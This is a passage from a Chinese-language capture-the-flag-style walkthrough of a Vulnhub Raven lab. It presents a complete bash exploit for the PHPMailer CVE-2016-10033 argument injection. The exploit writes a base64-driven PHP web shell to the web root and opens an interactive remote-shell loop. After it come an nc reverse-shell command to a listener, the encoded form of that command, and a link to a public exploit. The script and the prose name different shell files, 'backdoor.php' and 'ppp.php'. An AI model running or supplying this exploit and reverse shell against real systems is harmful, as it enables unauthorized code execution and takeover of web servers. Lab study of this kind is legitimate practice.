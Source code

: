 ```shell
host=$1

echo '[+] Exploiting '$host

curl -sq 'http://'$host -H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzXJpHSq4mNy35tHe' --data-binary $'------WebKitFormBoundaryzXJpHSq4mNy35tHe\r\nContent-Disposition: form-data; name="action"\r\n\r\nsubmit\r\n------WebKitFormBoundaryzXJpHSq4mNy35tHe\r\nContent-Disposition: form-data; name="name"\r\n\r\n<?php echo "|".base64_encode(system(base64_decode($_GET["cmd"])))."|"; ?>\r\n------WebKitFormBoundaryzXJpHSq4mNy35tHe\r\nContent-Disposition: form-data; name="email"\r\n\r\n"vulnerables\\\" -OQueueDirectory=/tmp -X/var/www/html/ppp.php server\" @test.com\r\n------WebKitFormBoundaryzXJpHSq4mNy35tHe\r\nContent-Disposition: form-data; name="message"\r\n\r\nPwned\r\n------WebKitFormBoundaryzXJpHSq4mNy35tHe--\r\n' >/dev/null && echo '[+] Target exploited, acessing shell at http://'$host'/ppp.php'

cmd='whoami'
while [ "$cmd" != 'exit' ]
do
    echo '[+] Running '$cmd
    curl -sq http://$host/backdoor.php?cmd=$(echo -ne $cmd | base64) | grep '|' | head -n 1 | cut -d '|' -f 2 | base64 -d
    echo
    read -p 'RemoteShell> ' cmd
done
echo '[+] Exiting'
```

主要修改地方在`name="email"`后面的数据以及目录地址`/var/www/html`

当然，在`github`上也有可直接使用的，地址为`https://github.com/opsxcq/exploit-CVE-2016-10033/blob/master/exploit.sh`，而且搜索出的`python`脚本也是可以直接使用的，不过在访问时，记得访问`192.168.10.16/ppp.php`

该脚本是通过`base64`进行的传递，所以，命令要进行`base64`编码的

先执行脚本，可能如下，但是不用管，是已经上传成功的。访问`192.168.10.16/ppp.php`即可，这里的提示不用管它

![](D:\stu\vulnhub\OSCP必刷靶场\raven系列\pic-1\22.jpg)

访问即可观察到，这里的`aWQ=`是命令`id`的，所以会这样显示，说明成功

![](D:\stu\vulnhub\OSCP必刷靶场\raven系列\pic-1\23.jpg)

那么尝试写入一个反弹`shell`，然后进行`base64`编码，测试常用的`bash`命令不行，就以`nc`

```shell
nc -e /bin/bash 192.168.10.2 9999
#编码
bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMTAuMiA5OTk5
```

先在`kali`中开启监听9999端口，然后浏览器访问，即可反弹成功

![](D:\stu\vulnhub\OSCP必刷靶场\raven系列\pic-1\23-1.jpg)


